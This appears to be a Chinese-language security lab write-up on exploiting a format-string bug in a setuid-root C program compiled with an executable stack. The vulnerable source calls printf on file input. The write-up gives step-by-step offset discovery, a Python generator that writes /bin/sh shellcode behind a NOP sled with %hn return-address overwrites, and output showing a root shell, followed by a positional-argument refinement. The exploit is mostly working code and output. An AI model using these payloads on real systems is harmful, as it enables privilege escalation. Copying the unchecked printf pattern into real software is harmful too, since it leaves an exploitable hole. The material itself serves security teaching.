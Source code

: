 #
#### 漏洞程序
目标:利用格式化漏洞任意目标地址写入任意值。  
```
#include <stdio.h>

void fmtstr(char *str)
{
    unsigned int *framep;
    unsigned int *ret;
    asm("movl %%ebp, %0": "=r"(framep));  // asm内嵌汇编语法，把ebp赋值给framep
    ret = framep + 1;
    printf("The address of the input array: 0x%.8x\n", (unsigned)str);
    printf("The value of the frame pointer: 0x%.8x\n", (unsigned)framep);
    printf("The value of the return address: 0x%.8x\n", *ret);
    printf(str);
    printf("\nThe value of the return address: 0x%.8x\n", *ret);

}

void main()
{
    FILE *badfile;
    char str[200];

    badfile = fopen("badfile", "rb");
    fread(str, sizeof(char), 200, badfile);
    fmtstr(str);
}
```

```
ubuntu@VM-0-17-ubuntu:~$ gcc -z execstack -o fmtvul fmtvul.c 

ubuntu@VM-0-17-ubuntu:~$ sudo chown root fmtvul
ubuntu@VM-0-17-ubuntu:~$ sudo chmod 4755 fmtvul
ubuntu@VM-0-17-ubuntu:~$ touch badfile
ubuntu@VM-0-17-ubuntu:~$ ./fmtvul 
The address of the input array: 0xbffff574
The value of the frame pointer: 0xbffff558
The value of the return address: 0x080485b9

The value of the return address: 0x080485b9
```


#### 攻击步骤
1.注入恶意代码到栈中  
2.找到恶意代码的起始地址   
3.找到返回地址的位置  
4.把恶意代码写入返回地址  

为了简化试验：直接打印出了ebp的值和返回地址，不然需要像缓冲区溢出那章节中那样通过gdb找到这些值    

知道帧栈的布局后，可以得知返回地址在帧栈指针上面四个字节。所以返回地址是 0xbffff558 + 4 = 0xbffff55c  
为了提高效率，还是以2字节为目标。所以把0xbffff55c分为0xbffff55c和0xbffff55e。   
由于恶意代码就放在输入数据中，把恶意代码放在数组尾部，并在它前面填满NOP指令（0x90）,这样只要跳转其中一个NOP上就能到达恶意代码。因此`0xbffff574` + `0x90` = `0xBFFFF604`  
因为小端序，所以把0xF604(10进制62980)放入0xbffff55c， 把0xBFFF(10进制49151)放入0xbffff55e   

因为 49151 < 62980,所以先给0xbffff55e地址赋值。  
所以是 `\x5E\xF5\xFF\xBF@@@@\x5C\xF5\xFF\xBF` 这样的顺序  


通过错法找到print调用时输入的字符串地址  
```
ubuntu@VM-0-17-ubuntu:~$ echo $(printf "\x5E\xF5\xFF\xBF@@@@\x5C\xF5\xFF\xBF"):%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x > badfile 
ubuntu@VM-0-17-ubuntu:~$ ./fmtvul 
The address of the input array: 0xbffff574
The value of the frame pointer: 0xbffff558
The value of the return address: 0x080485b9
^���@@@@\���:080485b9:b7fcd000:b7e19700:bffff648:b7ff0010:bffff558:bffff55c:b7fcd000:b7fcd000:bffff648:080485b9:bffff574:00000001:000000c8:0804b008:0804b008:bffff55e:40404040:bffff55c:382e253a:2e253a78:253a7838:3a78382e:78382e25:382e253a:2e253a78:253a7838:3a78382e:78382e25:382e253a:2e253a78:253a7838:3a78382e:78382e25:382e253a:2e253a78:253a7838:
The value of the return address: 0x080485b9
```
可以看到输入字符串第一个地址在第17个`%.8x`的位置，也就是前面需要16个%x才能到达字符串的地址。   


**生成badfile**  
```
shellcode = (
    "\x31\xc0"
    "\x31\xdb"
    "\xb0\xd5"
    "\xcd\x80"
    "\x31\xc0"
    "\x50"
    "\x68""//sh"
    "\x68""/bin"
    "\x89\xe3"
    "\x50"
    "\x53"
    "\x89\xe1"
    "\x99"
    "\xb0\x0b"
    "\xcd\x80"
).encode('latin-1')

N = 200

content = bytearray(0x90 for i in range(N))
start = N - len(shellcode)
# 把shellcode放在尾部
content[start:] = shellcode

# 把返回值域的地址放在格式化字符串的头部
addr1 = 0xBFFFF55E
addr2 = 0xBFFFF55C
content[0:4] = (addr1).to_bytes(4, byteorder='little')
content[4:8] = ("@@@@").encode('latin-1')
content[8:12] = (addr2).to_bytes(4, byteorder='little')

# 加上%x和%hn
small = 0xBFFF - 12 - 15*8
large = 0xF604 - 0xBFFF
s = "%.8x"*15 + "%." + str(small) + "x%hn%." + str(large) + "x%hn"

fmt = (s).encode('latin-1')
content[12:12+len(fmt)] = fmt
file = open("badfile", "wb")
file.write(content)
file.close()
```

**发动攻击**  
```
ubuntu@VM-0-17-ubuntu:~$ ./fmtvul 
...
000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000040404040��������������������������������������������������������������������������1�1۰�̀1�Ph//shh/bin��PS�ᙰ

The value of the return address: 0xbffff604
# id
uid=0(root) gid=500(ubuntu) groups=500(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare)

```
成功执行恶意代码拿到root权限  



**减少格式化字符串个数**  
可以使用格式化字符串的参数域(k$,k是可变参数)  
```
int main(int argc, char *argv[])
{
    printf("%9$.1x",1,2,3,4,5,6,7,8,9,0);
}
```
直接作用在第九个格式化符上,所以打印输出是9  


因此可以直接优化成如下部分  
```
small = 0xBFFF - 12
large = 0xF604 - 0xBFFF
s = "%." + str(small) + "x" + "%17$hn" + "%." + str(large) + "x" + "%19$hn"
```












